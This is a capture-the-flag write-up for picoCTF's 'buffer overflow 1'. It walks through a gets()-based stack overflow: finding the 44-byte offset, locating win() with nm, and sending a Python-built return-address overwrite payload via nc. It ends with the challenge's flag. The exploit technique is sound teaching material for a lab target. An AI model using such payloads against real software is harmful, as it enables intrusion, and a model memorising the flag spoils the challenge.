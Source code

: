 ![Task desc](../assets/images/buffer-overflow-1_image_1.png)


As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* After `buf` on stack there is other data, such as the base pointer (EBP/RBP) and the return address.
  
  > [!NOTE]
  > **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (vuln).


To call `win`, we need to input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.




Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:

![image_2](../assets/images/buffer-overflow-1_image_2.png)


Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  

![image_3](../assets/images/buffer-overflow-1_image_3.png)




I experimented with the number of characters needed to rewrite the return address and got the following:


 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```



The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


![image_5](../assets/images/buffer-overflow-1_image_5.png)



Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.

<br/>

Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.



Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```


![image_6](../assets/images/buffer-overflow-1_image_6.png)


Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    
![image_8](../assets/images/buffer-overflow-1_image_8.png)


```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```


![image_9](../assets/images/buffer-overflow-1_image_9.png)



`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
